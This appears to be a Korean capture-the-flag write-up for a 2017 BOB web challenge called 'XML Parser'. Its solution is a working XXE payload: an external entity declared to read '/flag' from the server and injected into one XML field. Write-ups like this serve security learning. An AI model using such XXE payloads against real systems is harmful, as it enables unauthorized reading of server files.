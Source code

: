 # [2017_BOB] \[WEB] XML Parser

### Problem

서버 - 35.194.232.23

![1](1.png)

기본적으로 주어지는 XML 내용이다. 이후에 submit을 하면 아래와 같이 다음 페이지로 넘어갑니다.

![2](2.png)

문제를 본 순간, 이것은 XXE겠구나 생각이 들었다.



### Solution

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE vuln_researcher[<!ENTITY test SYSTEM "/flag">]>
<vuln_researcher>
<member>
    <name>Flying Pig</name>
    <price>$1000000</price>
    <description>
    TQTT
   </description>
    <badass>1</badass>
</member>
<member>
    <name>mathboy7</name>
    <price>$50000</price>
    <description>
      Fa-o-hu
    </description>
    <badass>1</badass>
</member>
<member>
    <name>dr0gba</name>
    <price>$50000</price>
    <description>
      good smoker
    </description>
    <badass>0</badass>
</member>
<member>
    <name>oujin</name>
    <price>$50000</price>
    <description>
      TONGSU KING
    </description>
    <badass>1</badass>
</member>
<member>
    <name>Seven ujin</name>
    <price>$7</price>
    <description>
        slave
    </description>
    <badass>&test;</badass>
</member>
</vuln_researcher> 
```

조건문 맞춰주고 XXE를 발생시키기 위해 위와 같이 입력한다.

![3](3.png)